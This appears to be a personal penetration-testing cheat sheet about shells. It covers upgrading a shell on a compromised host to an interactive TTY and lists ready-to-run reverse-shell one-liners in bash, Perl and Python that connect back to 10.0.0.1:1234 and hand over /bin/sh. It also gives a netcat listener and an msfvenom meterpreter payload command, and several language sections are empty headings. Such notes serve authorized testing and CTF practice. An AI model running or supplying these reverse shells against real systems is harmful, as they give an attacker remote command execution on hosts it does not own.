 # shells

## Upgrading simple shells to interactive TTYs

```bash
pwned-box$ ^Z                     # suspend the process
host-machine$ echo $TERM          # get the terminal type
host-machine$ stty -a             # get the number of rows/cols
host-machine$ stty raw -echo      # convert terminal to raw
host-machine$ fg                  # re-open the reverse shell
pwned-box$ reset                  # reset the terminal of the reverse shell
pwned-box$ export SHELL=bash      # set the TTY settings: SHELL, TERM, and dimensions
pwned-box$ export TERM=screen
pwned-box$ stty rows <n_rows> cols <n_cols>
```

## reverse shells

### bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### ruby (untested)

### netcat 

### java

### xterm

## msfvenom

### aspx

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [The TTY demystified](http://www.linusakesson.net/programming/tty/)
- [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
